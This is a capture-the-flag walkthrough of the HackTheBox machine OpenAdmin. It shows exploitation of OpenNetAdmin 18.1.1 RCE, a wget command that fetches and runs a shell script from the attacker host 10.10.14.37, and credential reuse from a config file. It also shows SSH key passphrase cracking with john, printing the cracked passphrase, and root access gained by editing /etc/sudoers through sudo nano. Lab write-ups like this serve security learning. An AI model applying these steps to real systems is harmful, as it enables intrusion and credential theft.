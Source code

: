 # OpenAdmin

### Machine Info


#### Nmap



##### Dirbuster

![](screenshots/dirbuster.png)



##### HTTP(Port 80)

`http://10.10.10.171/msuic/`:
![](screenshots/music.png)

`http://10.10.10.171/ona/`:
![](screenshots/ona.png)

The title of the page is `OpenNetAdmin` and `OpenNetAdmin version 18.1.1` is running.

Let's check if there is a public exploit for `OpenNetAdmin`:

![](screenshots/searchsploit.png)


As we can see from the result, the `OpenNetAdmin version 18.1.1` is vulnerable to `RCE(Remote Code Execution)`.

I used exploit `47691.sh`

From the limited shell:
```
$ wget http://10.10.14.37:8080/shell.sh -O /tmp/shell.sh
$ chmod 755 /tmp/shell.sh
$ /bin/bash /tmp/shell.sh
```

`nc` listener on attacking side:
![](screenshots/low_shell.png)


#### Privilege Escalation

Before I check for files manually, I ran enumeration scripts `lse.sh`, []()https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh. However I couldn't get good information to escalate my privilege.

Therefore I just checked some files manually and found this:


The interesting directory:</br>
The owner of the directory `internal` is `jimmy`.
![](screenshots/interesting.png)

Files which includes word `passwd`:
![](screenshots/grep_passwd.png)

And from file `database_settings.inc.php`:
![](screenshots/jimmy.png)


I tried to `ssh` with that password to user `root`, `jimmy` and `joanna` and I was able to login to user `jimmy` with password.

![](screenshots/jimmy_ssh.png)

So now I am user `jimmy` and I can check that interesting directory.
![](screenshots/internal.png)

I checked them manually and `main.php` was interesting one.
![](screenshots/main_php.png)

This one will provide us `ssh_key` of joanna:
![](screenshots/curl_fail.png)

But failed. Let's enumerate more. I checked apache configuration and found reason:
![](screenshots/apache2.png)

![](screenshots/apache2_internal.png)

For the `internal` directory, I should connect to localhost and port `52846`:
![](screenshots/rsa_key.png)


Finally, I got the `rsa_key` but it is protected with paraphrase. `John the Ripper` can decrypt this paraphrase maybe.

First copy the `rsa_key` from victim to my kali machine and convert key to crackable format. If converted file is in right format we can use `john` to crack:
```
~/htb/OpenAdmin root@kali
❯ ssh2john joanna_rsa > crack_rsa
❯ john --wordlist=/usr/share/wordlists/rockyou.txt crack_rsa
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA 32/32])
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joanna_rsa)
1g 0:00:00:11 DONE (2020-02-21 13:22) 0.08665g/s 829809p/s 829809c/s 829809C/s bloodninjas
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Finally, I got the `rsa_key` and `paraphrase: bloodninjas`. It's time to `ssh`.

```
~/htb/OpenAdmin root@kali
❯ ssh joanna@10.10.10.171 -i joanna_rsa
--------------- SIP ------------------------
Last login: Thu Jan  2 21:12:40 2020 from 10.10.14.3
joanna@openadmin:~$
```

We are now user `joanna` and need more enumeration to get `root` shell.

Start with simple enumeration `sudo` privilege:

![](screenshots/sudo.png)


Yeah. User `joanna` can run command `/bin/nano /opt/priv` with `root` privilege:
```
joanna@openadmin:~$ sudo /bin/nano /opt/priv
```

After open `/opt/priv` just read file `/etc/sudoers` and change like below image and save to `/etc/sudoers`:

![](screenshots/sudoers.png)


Now user `joanna` can run any command with `root` privilege:
![](screenshots/root_shell.png)

And you can get `root.txt` :)
